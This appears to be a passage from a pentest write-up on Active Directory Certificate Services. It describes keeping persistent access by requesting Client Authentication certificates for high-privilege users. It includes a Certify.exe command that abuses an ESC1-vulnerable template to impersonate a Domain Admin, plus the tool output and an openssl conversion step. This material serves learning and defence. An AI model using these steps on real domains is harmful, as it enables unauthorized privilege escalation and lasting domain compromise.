 ## Persistence by user certificate

It is also possible to create persistence in the environment through certificates for the user. The idea here is that you already have elevated access within the environment, such as a Domain Admin, to issue this certificate on behalf of a high-privilege user you want to maintain access to.
<br><br>

The step-by-step would be:
- Gain access to a high-privilege user (i.e., DA & EA).
- Request a certificate for that user using a template that allows **Client Authentication**.
<br><br>

By default, ADCS has some templates that allow **Client Authentication**, such as the **User** template, which we will use to generate the certificate for our user. Typically, these certificates have a validity of 1 year, but when they are about to expire, you can simply reissue the same certificate.
<br><br>

In the context below, I have a low-privileged user in my environment, and I will be issuing the certificate in the name of a template vulnerable to ESC1. This will result in a ticket with the Domain Admin user, which will be our target for persistence.
<br><br>

```powershell
.\Certify.exe request /ca:CORP-DC.CORP.LOCAL\CORP-CA /template:"CORP - Kerberos Authentication" /altname:paulo.victor

[*] Action: Request a Certificates

[*] Current user context    : CORP\daniel.moura
[*] No subject name specified, using current context as subject.

[*] Template                : CORP - Kerberos Authentication
[*] Subject                 : CN=Daniel Moura, OU=Usuarios, OU=Inferi, DC=CORP, DC=LOCAL
[*] AltName                 : paulo.victor

[*] Certificate Authority   : CORP-DC.CORP.LOCAL\CORP-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 21

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAveH2b8bqL7smcl...

-----END CERTIFICATE-----


[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

```
